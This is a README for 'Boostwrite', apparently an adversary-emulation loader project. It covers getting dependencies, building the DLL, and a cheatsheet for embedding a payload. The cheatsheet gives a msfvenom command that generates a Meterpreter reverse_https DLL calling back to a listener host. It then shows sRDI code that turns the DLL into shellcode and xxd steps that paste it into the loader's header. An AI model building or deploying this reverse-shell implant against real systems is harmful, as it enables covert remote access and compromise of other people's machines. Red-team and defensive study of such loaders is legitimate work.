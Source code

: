 ## Boostwrite - Getting Dependencies
* Note, you must have libcurl and zlib locally as a dependency to compile boostwrite.
* Recommend using vcpkg, steps listed below.

1. Get latest vcpkg zip file from https://github.com/microsoft/vcpkg/releases (package available [here](https://github.com/microsoft/vcpkg/archive/2019.09.zip) and extract it to a folder of your choice (e.g. C:\vcpkg\)

2. Open Developer Command Prompt for VS 2017 (see Windows Start menu or %PROGRAMDATA%\Microsoft\Windows\StartMenu\Programs\Visual Studio 2017\Visual Studio Tools\) and cd to C:\vcpkg\
3. Run bootstrap-vcpkg.bat
4. Run vcpkg.exe integrate install
5. Run vcpkg.exe install curl

##  Build Instructions - Visual Studio

1. Create new visual studio DLL C++ project.
2. Substitute template dllmain.cpp for dllmain.cpp in this project.
3. Add the header files into the project.
4. Update msfpayload.h with your payload.



## MSFPayload Build Cheatsheet for BOOSTWRITE
0. Generate MSF payload
```
msfvenom - p windows/x64/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=443 -f dll -o msf.dll
```

1. Leverage SRDI to create PIC code.

```
from ShellcodeRDI import *

dll = open("TestDLL_x86.dll", 'rb').read()
shellcode = ConvertToShellcode(dll)
print(shellcode)
# optional, write to a new DLL and use xxd to create C array 
```

2. Create C array of sRDI DLL or just copy the bytes produced by the previous example
```
xxd -i msf.exe
```

3. Copy and paste in msfpayload.h

4. Update variable names as appropriate.

### References
* [Stackoverflow Install Help for libcurl and Visual Studio](https://stackoverflow.com/questions/53861300/how-do-you-properly-install-libcurl-for-use-in-visual-studio-2017)

* [sRDI](https://github.com/monoxgas/sRDI)